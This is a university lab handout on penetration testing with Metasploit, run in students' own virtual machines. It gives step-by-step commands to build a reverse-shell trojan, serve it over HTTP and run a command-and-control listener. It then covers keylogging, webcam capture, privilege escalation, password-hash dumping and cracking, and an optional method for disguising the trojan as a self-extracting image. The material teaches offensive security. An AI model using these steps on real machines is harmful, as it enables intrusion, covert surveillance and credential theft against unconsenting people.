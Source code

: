 # its250
Online resources and examples

## Lab07: Penetration test

### 1. Description
Install Metasploit framework on Ubuntu then launch it from Ubuntu, carry out a cyber attack on the Windows server VM to get ultimate control.

**Prerequisite**

* Both Windows server VM and the Ubuntu VM are used
* Install Metasploit framework on Ubuntu

You may follow this [installation video](https://youtu.be/qKudXchmnWc) to install Metasploit framework on Ubuntu.

1. Install with [Rapid7 installer](https://docs.rapid7.com/metasploit/installing-the-metasploit-framework) on Ubuntu.
   ```bash
   # 0. Update and upgrade Ubuntu
   sudo apt update -y && sudo apt upgrade -y
   # 1. Disable anti-virus software (default)
   # 2. Disable firewalls (default)
   # 3. Install with root priviledges
   curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall 
   chmod 755 msfinstall
   sudo ./msfinstall
   ```
2. (Optional) Install with [Rapid7 installer](https://docs.rapid7.com/metasploit/installing-the-metasploit-framework) on Windows.
   ```batch
   # 1. Disable anti-virus software (Done in Lab03)
   # 2. Disable firewalls (Done in Lab03)
   # 3. Download metaspoit framework windows installer, then in nstall with Administrator account.
   ```

### 2. Tasks (100%)

*Note: replace VM IPs with yours in these tasks*

1. (5%) Find the IP addresses of your Windows server VM and Ubuntu VM, make sure they can ping each other
2.  (5%) On Ubuntu, create a trojan program with msfvenom
    ```bash
    # Replace the Ubuntu_IP with yours
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=Ubuntu_IP LPORT=12345 -f exe > trojan.exe
    ```
3. (5%) On Ubuntu, host trojon.exe with Python built-in SimpleHTTPServer
   ```bash
   # Run the command below from the folder contains trojan.exe
   sudo python3 -m http.server 80
   ```
4. (10%) On Ubuntu, starting a Command-and-Control (C&C) Server
   ```bash
   # Inside msfconsole, replace the Ubuntu_IP with yours
   use multi/handler
   set PAYLOAD windows/meterpreter/reverse_tcp
   set LHOST Ubuntu_IP
   set LPORT 12345
   # 1. one-time exploit
   exploit

   # 2. continuous exploit
   set exitonsession false
   exploit -j
   ```
5. (5%) On Windows, open a web browser, download http://Ubuntu_IP/trojan.exe, 
6. (5%) On Windows run trojan.exe and ignore any warnings.
7. (5%) On Ubuntu, if everything works, a meterpreter session should open.
8. (10%) Explore and use the meterpreter shell
9. (10%) Migrate to a different process inside meterpreter
   ```bash
   # show a list of processes
   ps
   # migrate to winlogon process
   migrate -N explorer.exe
   # migration is unreliabe. If it failed, restart Windows VM, repeat step 6-9 until succeed.
   ```
10. (20%, each 4%) Post-exploitation. Now the Windows VM is under control. Play with the following meterpreter commands.
   ```bash
   # 1. take a screenshot of the victim's desktop
   screenshot
   # 2. capture key strokes
   # 2.1 start capturing key stroke in the victim machine
   keyscan_start
   # 2.2 On the victim machine, open notepad and type something
   # 2.3 Inside meterpreter, dump the captured key strokes
   keyscan_dump
   # 3. (Optional) Take a phone with the webcam
   webcam_snap
   # 4. Get a Windows command prompt on the victim machine
   shell
   # exit the windows command prompt above
   exit
   # 5. Check network connections on the victim machine from meterpreter
   netstat
   ```
11. (20%) Cracking and changing Windows password.
    1. (10%) Dump the hash values of all saved passwords of all windows users, then crack with John the Ripper.
    ```bash
    # Inside meterpreter
    # 1. Check the priviledge that meterpreter is currently in
    getuid
    # 2. Escalate priviledge
    use priv
    getsystem
    getuid
    # 3. dump the hashes
    run post/windows/gather/hashdump # save the result in a text file userhashes.txt
    # 4. crack the hashes, download hashcat.7z from tools folder,
    # or from https://github.com/attackdebris/hashcat-2.0 and extract it
    # hashes.txt contains only the hashes of userhashes.txt
    hashcat-cli64.bin -m 1000 -a 0 -o winpass.txt --remove hashes.txt rockyou.txt 
    ```
    1. (10%) Change Windows users' password. Use a user found above, replace oldpass and newpass with yours
    ```bash
    # Inside msf, failed somehow. Changing passwords can be done in Task 10.4 above using net users command
    msf > use post/windows/manage/change_password
    msf post(change_password) > set smbuser user_name
    msf post(change_password) > set old_password oldpass
    msf post(change_password) > set new_password newpass
    msf post(change_password) > set session 1
    msf post(change_password) > exploit
    ```

### 3. Review questions (Optional)
1. Hide trojan.exe in a self-extract archive.
   1. Download an image as a cover image.
   2. With WinRAR, create a self-extract archive of the cover image and trojan.exe
   3. Configure run after extraction to be: trojan.exe then the cover image.
   4. Download another harmless-look image, convert it into an icon on [icoconvert](https://icoconvert.com/), then use this icon as the icon of the self-extract archive.
2. Use Metasploit Framework GUI - Armitage
   1. Install Java JDK
      ```bash
      sudo apt install  default-jdk
      ```
   2. Download [Armitage](http://www.fastandeasyhacking.com) and extract it.
   3. Init Metasploit Framework database and load the MSGRPC Plugin
      ```bash
      msfdb reinit
      msfconsole
      msf > load msgrpc # note down the user name and password used for armitage
      ```
    4. Run Armitage and connect to the msfrpc running above
      ```bash
      export MSF_DATABASE_CONFIG="/home/$USER/.msf4/database.yml"
      ./armitage
      ```
    5. Enjoy Armitage

**Demo video**

* [Lab07: Penetration test](https://youtu.be/DiGyw79HhlM)

## Reference
* [Running a simple HTTP web server with one terminal command and python](https://linuxconfig.org/running-a-simple-http-web-server-with-one-terminal-command-and-python)
  * [Share Files Using Lightweight Http Servers in Linux](https://linuxhint.com/share_files_lightweight_http_server/)
* [Metasploit](https://docs.rapid7.com/metasploit/quick-start-guide)
  * [Installing Metasploit](https://docs.rapid7.com/metasploit/installing-metasploit-pro)
  * [Restarting Metasploit Services](https://docs.rapid7.com/metasploit/restarting-metasploit-services)
  * [Uninstalling Metasploit](https://docs.rapid7.com/metasploit/uninstalling-metasploit)
* [Installing Metasploit Penetration Testing Framework](https://fedoraproject.org/wiki/Metasploit_Penetration_Testing_Framework)
  * [Metasploit Postgres Setup](https://fedoraproject.org/wiki/Metasploit_Postgres_Setup)
* [Metasploit Framework](https://docs.rapid7.com/metasploit/msf-overview)
* [Creating Infectious Media with Metasploit](https://samsclass.info/123/proj10/p4msf.htm)
* [Offensive Msfvenom: From Generating Shellcode to Creating Trojans](https://medium.com/@PenTest_duck/offensive-msfvenom-from-generating-shellcode-to-creating-trojans-4be10179bb86)
  * [Hide Payloads Behind Images](https://medium.com/@chamo.wijetunga/hide-payloads-behind-images-and-hacking-windows-fb82cf2f0e7c)
    * [7z examples](https://www.dotnetperls.com/7-zip-examples)
  * [Create malicious PDF](https://fareedfauzi.github.io/blog-post/Create-malicious-pdf/)
  * [How to Embed (Hide) a Backdoor into a File (pdf, exe, etc...)](http://dan3lmi.blogspot.com/2019/01/how-to-embed-hide-backdoor-into-file.html)
* [Lab: Hacking an Android Device with MSFvenom](https://resources.infosecinstitute.com/topic/lab-hacking-an-android-device-with-msfvenom/)
* [Autorun.inf Maker](http://www.ashzfall.com/products/autorun/index.html)
  * [How do I test autorun.inf files without wasting CD's?](http://www.ashzfall.com/products/autorun/autorunfloppy.html)
  * [How to Auto-Run Windows Programs When You Plug In a USB Drive](https://www.howtogeek.com/326049/how-to-auto-run-windows-programs-when-you-plug-in-a-usb-drive/)
* [meterpreter basics](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)
  * [Quick Meterpreter and Metasploit tutorial - Stealing hashes and passwords, Keyloggers, Webcams and other post-exploitation modules](http://www.ethicalpentest.com/2018/03/meterpreter-metasploit-tutorial-part2.html)
  * [Post Exploitation for Remote Windows Password](https://www.hackingarticles.in/post-exploitation-remote-windows-password/)
  * [Dumping Domain Password Hashes](https://pentestlab.blog/2018/07/04/dumping-domain-password-hashes/)
  * [Cracking Windows Password Hashes with Hashcat](https://samsclass.info/123/proj14/123p12winhash.htm)
  * [Meterpreter basics practice](https://www.utc.edu/center-academic-excellence-cyber-defense/pdfs/4660-lab6.pdf)
  * [Armitage](http://www.fastandeasyhacking.com)
    * [source](https://github.com/rsmudge/armitage)